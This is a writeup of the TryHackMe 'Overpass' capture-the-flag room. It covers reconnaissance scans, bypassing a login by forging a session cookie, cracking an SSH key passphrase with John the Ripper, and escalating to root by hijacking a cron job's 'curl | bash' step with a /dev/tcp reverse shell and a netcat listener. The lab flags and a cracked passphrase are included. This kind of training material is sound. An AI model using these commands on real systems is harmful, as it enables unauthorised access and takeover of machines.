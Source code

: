 ```yaml
---
title: 'Tryhackme: Overpass'
date:  2025-06-25 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, writeup, ctf, publisher, sudo, apt, nmap, gobuster, fuelcms, linpeas, reverse-shell, privilege-escalation, flags] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Overpass/
---
```


# 🕵️‍♂️ Overpass - 1 | Writeup | 25 June 2025

![TryHackMe Logo](THM.png)
![Overpass_image](overpass.png)

---

**Author:** *Aakash Modi*

---

# 🕵️ Reconnaissance & Enumeration - Task 1

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.5.56
```
![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Dirbuster)

**Command:**
```bash
gobuster dir -u http://10.10.209.74 \                    
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-x php,js,html,css \
--exclude-length 1286 \
-o directory_scan.txt \
-a "Mozilla/5.0 (Kali)" \
-t 40 --timeout 10s
```
![Directory Scan Screenshot](directory_scan.png)

---

## 🔎 Web Vulnerability Scanning

**Nikto Scan:**
```bash
nikto -h http://10.10.209.74/ -o nikto_scan.txt
```
![Nikto Scan Screenshot](nikto_scan.png)

---

## 🌐 Web Enumeration

- **Admin Page Discovery:**  
  ![Admin URL](admin_url.png)

- **Network Analysis of Admin Page:**  
  ![Admin Network](admin_network.png)

- **Session Manipulation:**  
  Set the cookie `SessionToken` to any value (e.g., `1`) to bypass authentication.  
  ![Session Manipulation](session_.png)

- **Admin Dashboard Access:**  
  ![Admin Dashboard](dashboard_admin.png)

---

## 🔑 SSH Access

- **Extracting the RSA Private Key:**  
  Copy the RSA private key from the admin dashboard and save it locally.
  ```bash
  echo "<RSA PRIVATE KEY>" > id_rsa
  chmod 600 id_rsa
  ```
  ![SSH RSA Key](ssh_rsa.png)

- **Passphrase Required:**  
  ![SSH Passphrase](ssh_passphrase.png)

- **Cracking the Passphrase:**  
  Convert the key for John the Ripper:
  ```bash
  ssh2john id_rsa > hash.txt
  john hash.txt
  ```
  ![ssh2john](ssh2john.png)
  ![John the Ripper](crack_hash.png)

  **Credentials:**  
  - **Passphrase:** `james13`

- **SSH Login:**
  ```bash
  ssh -i id_rsa james@10.10.2.81
  ```
  ![SSH Login](ssh_login.png)

---

## 🏁 User Flag

- **Flag:**  
  `thm{65c1aaf000506e56996822c6281e6bf7}`
  
  ![User Flag](flag.png)

---

# 🚀 Privilege Escalation

- **Check Crontab for Scheduled Tasks:**
  ```bash
  cat /etc/crontab
  ```
  ![Crontab](root_access.png)

- **Suspicious Cron Job:**
  ```
  * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
  ```
  ![Cron Job](root_pri.png)

- **Host File Manipulation:**  
  Point `overpass.thm` to your attacker's IP.
  ```bash
  sudo nano /etc/hosts
  ```
  ![Host File](host.png)

- **Prepare Reverse Shell Script:**  
  Place your reverse shell in `/downloads/src/buildscript.sh`:
  ```bash
  bash -i >& /dev/tcp/10.8.76.195/4444 0>&1
  ```
  ![Reverse Shell Path](path.png)
  ![Reverse Shell](reverse_shell.png)

- **Serve the Payload:**
  ```bash
  python3 -m http.server 80
  ```
  ![Python HTTP Server](python_server.png)

- **Start Netcat Listener:**
  ```bash
  nc -lvnp 4444
  ```
  ![Netcat Listener](listen.png)

- **Root Shell Acquired:**
  ![Root Shell](root_shell.png)

- **Verify Root Access:**
  ```bash
  whoami
  ```
  ![Whoami Root](check_root.png)

---

## 🏁 Root Flag

- **Flag:**  
  `thm{7f336f8c359dbac18d54fdd64ea753bb}`

  ![Root Flag](root_flag.png)

---

# 🎯 Conclusion

- All tasks completed successfully!
  
  ![Room Completed](completed.png)

---

## 🎉 Happy Hacking!

<div align="center">
    <a href="https://giphy.com/gifs/charlie-hunnam-gif-hunt-102h4wsmCG2s12">
        <img src="https://media.giphy.com/media/102h4wsmCG2s12/giphy.gif" alt="Charlie Hunnam GIF" width="400"/>
    </a>
</div>

---
